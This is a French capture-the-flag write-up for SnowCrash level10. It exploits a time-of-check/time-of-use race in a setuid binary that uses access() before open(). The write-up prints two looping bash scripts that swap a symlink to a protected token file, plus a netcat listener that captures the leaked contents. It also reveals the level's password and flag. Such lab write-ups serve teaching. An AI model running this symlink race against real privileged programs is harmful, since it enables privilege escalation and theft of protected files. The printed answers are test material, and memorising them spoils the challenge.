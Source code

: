 # Level10

Sur le home de l'utilisateur level10, à l'instar des level08 et level09 nous y trouvons un fichier token et un exécutable portant le nom de l'utilisateur.  
Effectuons des tests :
```sh
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ ./level10 token
./level10 file host
	sends file to host if you have access to it
```
L'usage nous indique que l'executable envoi un fichier si nous avons les droits dessus.
avec `strings level10` nous trouvons le port sur lequel le fichier est envoyé, ainsi que le programme utilise `open` et `access`: 
```sh
Connecting to %s:6969 ..
open
access
```
Nous allons utiliser cette faille d'access afin de récupérer le token :  
`Avertissement : Utiliser access() pour vérifier si un utilisateur a le droit, par exemple, d'ouvrir un fichier avant d'effectuer réellement l'ouverture avec open(2), risque de créer un trou de sécurité.
En effet, l'utilisateur peut exploiter le petit intervalle de temps entre la vérification et l'accès pour modifier le fichier (via un lien symbolique en général).
Pour cette raison, l'utilisation de cet appel système devrait être évitée.` (man access)  

Nous allons utiliser les scripts suivants : 
```bash
#!/bin/bash
while true;
do
	~/level10 /tmp/link 127.0.0.1
done
```
Qui va sans cesse essayer d'envoyer le fichier tmp/link sur le localhost  
et :  
```bash
#!/bin/bash
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	ln -fs ~/token /tmp/link
done
```
Qui lui va supprimer le fichier /tmp/link, le créer et faire un lien symbolique sur le fichier token du home
Il nous reste qu'à écouter les transfert via `nc`  
```bash
level10@SnowCrash:~$ nc -lk 6969
```
l'option l pour l'ecoute et l'option k pour garder la connection.
Nous obtenons le token :  
```bash
.*( )*.
woupa2yuojeeaaed06riuj63c
```
Il nous reste plus qu'à récuperer le flag : 
```bash 
level10@SnowCrash:~$ su flag10
Password:woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
||<h3 align="center"> Documentation </h3>|
|:--------:|:---------:|
|access|http://manpagesfr.free.fr/man/man2/access.2.html|
|nc|https://howto.lintel.in/listen-arbitrary-port-print-data-coming-using-netcat/|
